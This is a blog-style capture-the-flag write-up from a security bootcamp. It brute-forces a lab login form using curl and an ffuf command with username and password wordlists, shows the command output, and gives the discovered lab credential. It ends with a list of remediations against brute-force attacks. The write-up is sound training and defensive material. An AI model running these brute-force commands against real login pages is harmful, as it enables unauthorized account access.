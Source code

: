 ```yaml
---
layout: post
title: Task 1 Bruteforce
date: 11-05-2025
categories: SentinelSecure
tags: bruteforce     # TAG names should always be lowercase
image: 
  path: "../assets/sentinel/brute3.png"
---
```


## Overview
Authentication bypass can be achieved through several methods, and brute force attacks are one of them. A brute force attack is a cyber attack typically carried out against authentication features by systematically guessing credentials using wordlists. In the first session of the Cyber Sentinel Secure Bootcamp Batch 2 by XCode, the instructor presented a brute force challenge for students to solve in order to proceed to the next stage.
## Study case
In this scenario, students were tasked with bypassing a login form to obtain a WhatsApp group URL. The instructor provided the following target environment:

```bash
IP address: 172.17.2.195
username wordlist: https://xcode.co.id/user.txt
password wordlist: https://xcode.co.id/wordlist.txt
```
## Attack Methodology
To interact with the target IP, I used SSH port forwarding with my public domain, which was on the same network as the target. By using the -L option, I forwarded a local port to the target address:

```bash
➜ sentinel ssh root@konek.securityhub.id -L 8080:172.17.2.195:80 -p <PORT>
root@konek.securityhub.id's password:
Last login: xxx xxx  x xx:xx:xx xxxx from xxx.xxx.xxx.xxx
root@6c483be0c2ec:~#
```
Next, I used the curl command to send a GET request, adding the -sv options for verbose output to gain more insight into the response:

```bash
➜ sentinel curl -sv 127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/8.13.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: xxx, xx xxx xxxx xx:xx:xx xxx
< Server: Apache/2.4.52 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 201
< Content-Type: text/html; charset=UTF-8
<

<h2>Login</h2>
<form method="post">
    Username: <input type="text" name="username"><br><br>
    Password: <input type="text" name="password"><br><br>
    <input type="submit" value="Login">
</form>
* Connection #0 to host 127.0.0.1 left intact
```
The output revealed a simple login form with username and password fields. I tested it by sending a POST request with generic credentials (admin:admin) using curl and the -d option to include the request data, but the attempt failed:
```bash
➜ sentinel curl -sv -XPOST 127.0.0.1:8080 -d 'username=admin&password=admin'
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080
* using HTTP/1.x
> POST / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/8.13.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 29 bytes
< HTTP/1.1 200 OK
< Date: Fri, xx xxx xxxx xx:xx:xx GMT
< Server: Apache/2.4.52 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 222
< Content-Type: text/html; charset=UTF-8
<
<h3>Login gagal!</h3>
<h2>Login</h2>
<form method="post">
    Username: <input type="text" name="username"><br><br>
    Password: <input type="text" name="password"><br><br>
    <input type="submit" value="Login">
</form>
* Connection #0 to host 127.0.0.1 left intact
```
Since manual testing didn’t work, I used ffuf to automate the brute force attack. I specified the content type with the -H option and filtered responses of size 222 (failed attempts) using -fs:

```bash
➜ sentinel ffuf -u 'http://127.0.0.1:8080' -H 'Content-type: application/x-www-form-urlencoded' -d 'username=USER&password=PASS' -w user.txt:USER -w wordlist.txt:PASS -fs 222

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:8080
 :: Wordlist         : USER: user.txt
 :: Wordlist         : PASS: wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USER&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 222
________________________________________________

[Status: 200, Size: 274, Words: 25, Lines: 8, Duration: 734ms]
    * PASS: [REDACTED]
    * USER: [REDACTED]
```
After obtaining valid credentials, I used curl again to send a POST request and extracted the WhatsApp group link—preferring the CLI over a browser:

```bash
➜ sentinel curl -XPOST 127.0.0.1:8080 -d 'username=ujian&password=qwertyuiop'

<h3>Login sukses! - https://chat.whatsapp.com/[REDACTED]</h3>
<SNIP>
```
## Automation
To streamline the brute force process, a Python script using the requests library can automate credential testing, reducing manual effort and improving efficiency.
![evidence](../assets/sentinel/poc.gif "brute.py")
This Python script automates the brute force attack against the target login form by systematically testing credentials from provided wordlists (user.txt and wordlist.txt). Key features include:
    
    1. Credential Loading: Reads and formats usernames/passwords from text files.

    2. Session Management: Uses requests.Session() to maintain connection efficiency.

    3. HTML Parsing: Leverages BeautifulSoup to extract success/failure messages and the WhatsApp group link.

    4. Error Handling: Catches and logs request exceptions to avoid script crashes.

    5. Progress Feedback: Prints real-time attempts and highlights valid credentials upon discovery.

The script ensures a structured, repeatable attack process while minimizing manual intervention.
## Remediation
To protect authentication systems from brute force attacks, implement the following security measures:
    
    1. Account Lockout Mechanisms
    
        Temporary Lockout: Lock accounts after a set number of failed attempts (e.g., 5-10 attempts).
    
        Progressive Delays: Introduce increasing delays between login attempts (e.g., 30s, 1m, 5m).
    
        Admin Alerts: Notify administrators of repeated failed logins for manual review.
    
    2. Strong Password Policies
    
        Complexity Requirements: Enforce passwords with uppercase, lowercase, numbers, and special characters.
    
        Minimum Length: Require passwords to be at least 12+ characters long.
    
        Password Rotation: Encourage (but do not enforce) periodic password changes.
    
    3. Multi-Factor Authentication (MFA)
    
        OTP/SMS Codes: Require time-based one-time passwords (TOTP) or SMS verification.
    
        Biometric/FIDO2: Implement hardware keys (YubiKey) or fingerprint authentication.
    
    4. Rate Limiting & Throttling
    
        IP-Based Rate Limiting: Restrict login attempts per IP (e.g., 10 attempts/minute).
    
        CAPTCHA Challenges: Trigger CAPTCHAs after multiple failed attempts.
    
    5. Monitoring & Anomaly Detection
    
        Log Analysis: Monitor logs for unusual login patterns (e.g., rapid-fire attempts).
    
        Behavioral Analysis: Detect logins from unusual locations/devices.
    
        Fail2Ban Integration: Automatically block IPs with excessive failed attempts.
    
    6. Secure Authentication Protocols
    
        Hashing & Salting: Store passwords using bcrypt, Argon2, or PBKDF2.
    
        HTTPS Enforcement: Prevent credential interception via TLS encryption.
    
    7. User Education & Awareness
    
        Phishing Training: Teach users to recognize credential-harvesting scams.
    
        Password Manager Adoption: Encourage the use of password managers for strong, unique passwords.

